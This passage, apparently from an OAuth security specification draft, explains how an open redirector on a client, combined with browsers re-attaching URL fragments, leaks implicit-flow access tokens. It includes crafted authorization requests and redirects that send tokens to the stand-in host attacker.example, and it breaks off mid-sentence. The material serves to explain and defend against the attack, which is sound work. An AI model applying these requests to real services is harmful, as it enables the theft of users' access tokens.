 Additionally, implicit clients can be subject to a further kind of
attack. It utilizes the fact that user agents re-attach fragments to
the destination URL of a redirect if the location header does not
contain a fragment (see [@!RFC7231], Section 9.5). The attack
described here combines this behavior with the client as an open
redirector (see (#open_redirector_on_client)) in order to get access to access tokens. This allows
circumvention even of very narrow redirect URI patterns, but not strict URL
matching.

Assume the registered URL pattern for client `s6BhdRkqt3` is
`https://client.somesite.example/cb?*`, i.e., any parameter is allowed
for redirects to `https://client.somesite.example/cb`. Unfortunately,
the client exposes an open redirector. This endpoint supports a
parameter `redirect_to` which takes a target URL and will send the
browser to this URL using an HTTP Location header redirect 303.

The attack can now be conducted as follows:

First, and as above, the attacker needs to trick the user into opening
a tampered URL in his browser that launches a page under the
attacker's control, say `https://www.evil.example`.

Afterwards, the website initiates an authorization request that is
very similar to the one in the attack on the code flow. Different to
above, it utilizes the open redirector by encoding
`redirect_to=https://attacker.example` into the parameters of the
redirect URI and it uses the response type "token" (line breaks for display only):

    GET /authorize?response_type=token&state=9ad67f13
        &client_id=s6BhdRkqt3
        &redirect_uri=https%3A%2F%2Fclient.somesite.example
         %2Fcb%26redirect_to%253Dhttps%253A%252F
         %252Fattacker.example%252F HTTP/1.1
    Host: server.somesite.example

Now, since the redirect URI matches the registered pattern, the
authorization server permits the request and sends the resulting access
token in a 303 redirect (some response parameters omitted for
readability):

    HTTP/1.1 303 See Other
    Location: https://client.somesite.example/cb?
              redirect_to%3Dhttps%3A%2F%2Fattacker.example%2Fcb
              #access_token=2YotnFZFEjr1zCsicMWpAA&...

At client.somesite.example, the request arrives at the open redirector. The endpoint will
read the redirect parameter and will issue an HTTP 303 Location header
redirect to the URL `https://attacker.example/`.

    HTTP/1.1 303 See Other
    Location: https://attacker.example/

Since the redirector at client.somesite.example does not include a
fragment in the Location header, the user agent will re-attach the
original fragment `#access_token=2YotnFZFEjr1zCsicMWpAA&amp;...` to
the URL and will navigate to the following URL:
